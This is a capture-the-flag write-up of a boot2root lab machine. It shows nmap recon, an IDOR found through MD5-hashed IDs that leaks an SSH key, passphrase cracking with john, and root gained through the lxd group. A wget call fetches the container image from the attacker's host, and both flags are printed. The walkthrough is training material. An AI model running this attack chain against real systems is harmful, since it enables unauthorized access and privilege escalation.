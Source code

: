 ## BattleX CTF: machine1
#### Category: Boot2Root
#### Score: 60
#### Number of Solves: 3 
### Description

> You know what to do

### TL; DR

Exploit IDOR in a web app and get access to sensitive information, in this case, a SSH private key, encrypted with a weak password. Using that as access and exploiting lxd group to get root access on this machine

### Recon

```
Starting Nmap 7.95 ( https://nmap.org ) at 2024-06-30 02:39 WAT
Nmap scan report for 10.10.146.166
Host is up (0.50s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f8:89:12:c0:ab:91:e2:29:1f:55:a6:b1:aa:48:e5:37 (RSA)
|   256 46:05:a8:f4:66:29:41:79:01:a0:43:b8:a9:ef:47:5d (ECDSA)
|_  256 04:db:fa:b1:16:82:c5:99:86:41:ba:8a:ea:72:34:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Proverb Categories
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.67 seconds
```

    
### Initial access

![Imgur](https://i.imgur.com/4Z78fz0.png)

_Web server on port 80_

On checking the links in the proverb categories, they looked strange and similarly structured.

![Imgur](https://i.imgur.com/dEeLuF0.png)

They resemble an MD5 encoded text so I proceeded to use crackstation to try and reverse the text.

![Imgur](https://i.imgur.com/SOjlcBY.png)

My guess was right and it should be possible for me to generate my own MD5 and exploit an IDOR (Insecure Direct Object References) vulnerability. I generated several numbers in MD5 and tried to see if it existed, until `0`.

![Imgur](https://i.imgur.com/ERvoHX2.png)

It contained both public ssh and an encrypted private ssh key. The public key showed who owns them, `jayhunts`. I copied the private key to a file for cracking, using ssh2john and john.

![Imgur](https://i.imgur.com/akAJNrQ.png)

_Password found_

Now that the password has been found, login via ssh shouldn't be an issue. 

![Imgur](https://i.imgur.com/XjqnC6R.png)

_Login success_

```
jayhunts@BattleX:~$ cat user.txt
BattleX{e99a18c428cb38d5f260853678922e03}
jayhunts@BattleX:~$
```

User flag: `BattleX{e99a18c428cb38d5f260853678922e03}`

### Privilege escalation

```
jayhunts@BattleX:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
[snip]
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
jayhunts:x:1000:1000:,,,:/home/jayhunts:/bin/bash
jayhunts@BattleX:~$ id
uid=1000(jayhunts) gid=1000(jayhunts) groups=1000(jayhunts),108(lxd)
```

After checking for users in `/etc/passwd` file, I ran id and saw that jayhunts is in the `lxd` group. This can be taken advantage of to get root access on this machine. 

I ran this on my pc to start the privilege escalation proceedure

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
```

It soon created a `alpine-v3.13-x86_64-20210218_0139.tar.gz` in the folder. Next I snuck the image to the machine with my simple http server, using wget.

```
wget http://MY_IP:8080/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

```
jayhunts@BattleX:~$ lxc image import import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
If this is your first time running LXD on this machine, you should also run: lxd init
To start your first container, try: lxc launch ubuntu:18.04

Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a

jayhunts@BattleX:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]:
Do you want to configure a new storage pool? (yes/no) [default=yes]:
Name of the new storage pool [default=default]:
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]:
Create a new BTRFS pool? (yes/no) [default=yes]:
Would you like to use an existing block device? (yes/no) [default=no]:
Size in GB of the new loop device (1GB minimum) [default=15GB]:
Would you like to connect to a MAAS server? (yes/no) [default=no]:
Would you like to create a new local network bridge? (yes/no) [default=yes]:
What should the new bridge be called? [default=lxdbr0]:
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:
Would you like LXD to be available over the network? (yes/no) [default=no]:
Would you like stale cached images to be updated automatically? (yes/no) [default=yes]
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:

jayhunts@BattleX:~$ lxc init myimage mycontainer -c security.privileged=true
Creating mycontainer

jayhunts@BattleX:~$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to mycontainer

jayhunts@BattleX:~$ lxc start mycontainer
jayhunts@BattleX:~$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |          UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
| myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Jun 30, 2024 at 11:04am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
jayhunts@BattleX:~$ lxc exec mycontainer /bin/sh
~ # whoami
root
~ # pwd
/root
~ # ls
~ # cd /mnt/root
/mnt/root # ls
bin             etc             lib             mnt             run             swap.img        var
boot            home            lib64           opt             sbin            sys             vmlinuz
cdrom           initrd.img      lost+found      proc            snap            tmp             vmlinuz.old
dev             initrd.img.old  media           root            srv             usr
/mnt/root # cd root
/mnt/root/root # ls -lah
total 36K
drwx------    6 root     root        4.0K Jun 21 15:43 .
drwxr-xr-x   24 root     root        4.0K Jun 14 20:01 ..
lrwxrwxrwx    1 root     root           9 Jun 15 04:14 .bash_history -> /dev/null
-rw-r--r--    1 root     root        3.0K Jun 21 15:41 .bashrc
drwx------    2 root     root        4.0K Jun 16 00:46 .cache
drwx------    3 root     root        4.0K Jun 16 00:46 .gnupg
drwxr-xr-x    3 root     root        4.0K Jun 14 21:21 .local
-rw-r--r--    1 root     root         148 Aug 17  2015 .profile
drwx------    2 root     root        4.0K Jun 14 20:51 .ssh
-rw-------    1 root     root          42 Jun 21 15:43 root.txt
/mnt/root/root # cat root.txt
BattleX{c4ca4238a0b923820dcc509a6f75849b}
```

Thats all for machine1

Root flag: `BattleX{c4ca4238a0b923820dcc509a6f75849b}`

### Conclusion


### References

1. [Hacktricks lxd privilege escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
